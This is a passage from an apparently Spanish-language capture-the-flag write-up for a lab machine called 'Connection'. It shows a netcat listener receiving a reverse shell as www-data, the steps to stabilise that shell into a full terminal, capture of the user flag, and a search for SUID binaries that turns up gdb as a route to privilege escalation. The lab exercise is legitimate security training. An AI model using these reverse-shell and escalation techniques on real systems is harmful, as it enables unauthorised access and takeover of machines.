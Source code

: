 ```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [192.168.1.97] from (UNKNOWN) [192.168.1.107] 41332
bash: cannot set terminal process group (567): Inappropriate ioctl for device
bash: no job control in this shell
www-data@connection:/var/www/html$ 
```

Ahora para poder hacer `ctrl+c` haremos lo siguiente

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [192.168.1.97] from (UNKNOWN) [192.168.1.107] 41332
bash: cannot set terminal process group (567): Inappropriate ioctl for device
bash: no job control in this shell
www-data@connection:/var/www/html$ script /dev/null -c bash
script /dev/null -c bash
Script started, file is /dev/null
www-data@connection:/var/www/html$ ^Z
zsh: suspended  nc -nlvp 443
``` 

```bash
❯ stty raw -echo; fg
[1]  + continued  nc -nlvp 443
                              reset xterm
ENTER
```

Y listo 

```bash
www-data@connection:/var/www/html$ export TERM=xterm
www-data@connection:/var/www/html$ export SHELL=bash
www-data@connection:/var/www/html$ 

``` 

## User flag

En esta ubicacion puedes leer la flag

![](/assets/images/hvm-writeup-connection/Web9.png) 

## Escalada de Privilegios

Vemos el binario `gdb` que es `SUID` 

```bash
www-data@connection:/$ find \-perm -4000 2>/dev/null
./usr/lib/eject/dmcrypt-get-device
./usr/lib/dbus-1.0/dbus-daemon-launch-helper
./usr/lib/openssh/ssh-keysign
./usr/bin/newgrp
./usr/bin/umount
./usr/bin/su
./usr/bin/passwd
./usr/bin/gdb
./usr/bin/chsh
./usr/bin/chfn
./usr/bin/mount
./usr/bin/gpasswd
```